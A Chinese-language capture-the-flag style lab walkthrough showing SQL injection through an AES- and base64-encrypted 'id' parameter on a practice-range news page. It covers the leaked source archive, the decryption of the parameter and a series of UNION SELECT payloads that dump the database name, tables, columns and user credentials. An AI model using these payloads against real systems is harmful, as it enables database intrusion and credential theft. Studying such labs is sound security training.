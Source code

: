 ﻿# SQL注入漏洞测试(参数加密)

标签（空格分隔）： 网络安全

---

## 背景介绍
> 此WEB业务环境对参数进行了AES加密，为了防止参数产生SQL注入，也是防止SQL注入产生的一种方法，但是这种方式就安全了么？

## 目标
> 1、掌握信息泄露的方式；
2、了解AES加解密；
3、了解PHP的基本语法；
4、掌握手工SQL注入；
5、了解MySQL数据库的结构；

## 解题方向
> 通过SQL注入方式，获取WEB业务系统的账号密码进行登录。

## 解题步骤
### 1、访问靶场链接，点击新闻
![image_1g4ce92i313ng8uc15r91jnm18e89.png-302.2kB][1]
### 2、将新闻的IP地址复制出来，并用工具来扫描，并访问扫描到的URL，将list.zip下载下来
![image_1g4ceapbs15el1v8e1vt9175a4r2p.png-123.2kB][2]
![image_1g4ceb5gvftjpbvq0nphssjb16.png-54.2kB][3]
![image_1g4cec9601620cj71v1410u2d981j.png-50.3kB][4]
### 3、观察压缩文件中的代码文件，并搜索对应的函数，可以发现是AES加密
![image_1g4cef4c211tijqi1r7u19b31ahb20.png-175.9kB][5]
![image_1g4cefl221jlcg6919qb5utc12d.png-23.1kB][6]
### 4、继续分析代码中的内容，并百度对应函数中参数的作用
![image_1g4cejdh5g836c484rqsv1gaa2q.png-190.9kB][7]
### 5、这里利用base64加了两次密，是因为AES最后输出结果的时候会进行一次base64加密
![image_1g4celrd4k0u1nbc270j9b1r7a37.png-181.4kB][8]
### 6、在URL中拿到对应的加密字符串先进行base64解密
 ![image_1g4cenkso1are9erla3hd2joh41.png-126.8kB][9]
 ![image_1g4ceoahl1t08o4v11v3140u135j4e.png-104.3kB][10]
### 7、将得到的解密字符串再进行AES解密，不要忘记填入所需的参数
![image_1g4cerqec13vr1qmlj921c9nh6qm.png-210.5kB][11]
### 8、最后获得解密后的字符串“1_mozhe”，源码中的程序会将"_mozhe"过滤掉
![image_1g4cf0shu3c01of6fno75mas79.png-176.4kB][12]
### 9、所以最终的URL为“http://124.70.71.251:45510/news/list.php?id=1_mozhe”
![image_1g4cg6h4s59ud96g1b1ac71kt81j.png-122.6kB][13]
### 10、反之逆序构造payload
**先将注入字符串末尾添加_mozhe字符，然后AES加密
因为AES加密默认已进行了一次base64加密，所以aes加密后再进行一次base64加密即可**
> 1. 构造payload: 1 and 1=2 union select 1,2,3,4_mozhe
 2. AES加密：0hMY7i4yFMb48GTM7O6GEhC/aK/c5wZlGbKBlWq6dPiKpflFaOD6AYj0DW05TpSj
 3. base64加密：MGhNWTdpNHlGTWI0OEdUTTdPNkdFaEMvYUsvYzV3WmxHYktCbFdxNmRQaUtwZmxGYU9ENkFZajBEVzA1VHBTag==
 
![image_1g4cgemu41t5514as9q417ple019.png-211.1kB][14]
![image_1g4cgf5m41q0m3vc17q1vlsjo6m.png-105kB][15] 
### 访问之后得知2为标题，3为内容
![image_1g4cgir0vbn8lngca1pga1r601g.png-94.7kB][16]
### 以此类推，找数据库名
> 1 and 1=2 union select 1,database(),version(),4_mozhe
得出数据库mozhe_Discuz_StormGroup

### 找表名
> 1 and 1=2 union select 1,TABLE_NAME,3,4 from information_schema.TABLES where TABLE_SCHEMA='mozhe_Discuz_StormGroup' limit 0,1_mozhe
得出第一个表：StormGroup_member

### 找字段名
> 一般name，password，status字段在第二个字段以后
1 and 1=2 union select 1,COLUMN_NAME,COLUMN_TYPE,4 from information_schema.COLUMNS where TABLE_SCHEMA='mozhe_Discuz_StormGroup' and TABLE_NAME='StormGroup_member' limit 1,1_mozhe
得到第二个字段为name
第三个字段为password
第四个字段为status

### 找用户名、密码和状态
> 1 and 1=2 union select 1,CONCAT(name,'-',password,'-',status),3,4 from mozhe_Discuz_StormGroup.StormGroup_member limit 0,1_mozhe
得到第一个用户名，密码，状态

---

> 1 and 1=2 union select 1,CONCAT(name,'-',password,'-',status),3,4 from mozhe_Discuz_StormGroup.StormGroup_member limit 1,1_mozhe
得到第二个用户名，密码，状态

---

> 或者
1 and 1=2 UNION SELECT 1,2,group_concat(name,password),4 from StormGroup_member _mozhe
显示所有用户名密码

### 将密码解密并且登录
![image_1g4ch9o0tbbovgo1imh1d7bv9jm.png-110.5kB][17]
![image_1g4chakhl1liqg3h1kc6tsf3c13.png-437.7kB][18]


  [1]: http://static.zybuluo.com/corn/twi5glq3foksblokzbxgjjfk/image_1g4ce92i313ng8uc15r91jnm18e89.png
  [2]: http://static.zybuluo.com/corn/z7e7a44f88ski1etj4pemff6/image_1g4ceapbs15el1v8e1vt9175a4r2p.png
  [3]: http://static.zybuluo.com/corn/bgarzvbln271o5htr4obsylj/image_1g4ceb5gvftjpbvq0nphssjb16.png
  [4]: http://static.zybuluo.com/corn/8ztvhmbnh03813eoshb2j704/image_1g4cec9601620cj71v1410u2d981j.png
  [5]: http://static.zybuluo.com/corn/4yuev39cvg15if7za8pf5h7y/image_1g4cef4c211tijqi1r7u19b31ahb20.png
  [6]: http://static.zybuluo.com/corn/i0g79mbnwikxlcwwsdpnlzyi/image_1g4cefl221jlcg6919qb5utc12d.png
  [7]: http://static.zybuluo.com/corn/s49uq74vc7vkhbb82a289jmy/image_1g4cejdh5g836c484rqsv1gaa2q.png
  [8]: http://static.zybuluo.com/corn/x18i6y0edp2wnruf2o3ufkbj/image_1g4celrd4k0u1nbc270j9b1r7a37.png
  [9]: http://static.zybuluo.com/corn/18g88pgv8lmuevcf86l10rbu/image_1g4cenkso1are9erla3hd2joh41.png
  [10]: http://static.zybuluo.com/corn/vgew6mkbhvzyifrxy8nazf04/image_1g4ceoahl1t08o4v11v3140u135j4e.png
  [11]: http://static.zybuluo.com/corn/wo87c5cj3nr9ssabmr8gzk4u/image_1g4cerqec13vr1qmlj921c9nh6qm.png
  [12]: http://static.zybuluo.com/corn/8uf692a36yx0x4fgmx2uwobi/image_1g4cf0shu3c01of6fno75mas79.png
  [13]: http://static.zybuluo.com/corn/6rxf9z0rxevy88t9jjvm1in2/image_1g4cg6h4s59ud96g1b1ac71kt81j.png
  [14]: http://static.zybuluo.com/corn/728dnqhxuf4gd8ir3x93vrqc/image_1g4cgemu41t5514as9q417ple019.png
  [15]: http://static.zybuluo.com/corn/8anqaq30euhybtt7pfejh79q/image_1g4cgf5m41q0m3vc17q1vlsjo6m.png
  [16]: http://static.zybuluo.com/corn/qwvi8qsvomfqsaiab03kvpxl/image_1g4cgir0vbn8lngca1pga1r601g.png
  [17]: http://static.zybuluo.com/corn/zh4v3jus3sci5iknrpx3e41r/image_1g4ch9o0tbbovgo1imh1d7bv9jm.png
  [18]: http://static.zybuluo.com/corn/fgb6zprsjmo01vn72gpdfge1/image_1g4chakhl1liqg3h1kc6tsf3c13.png
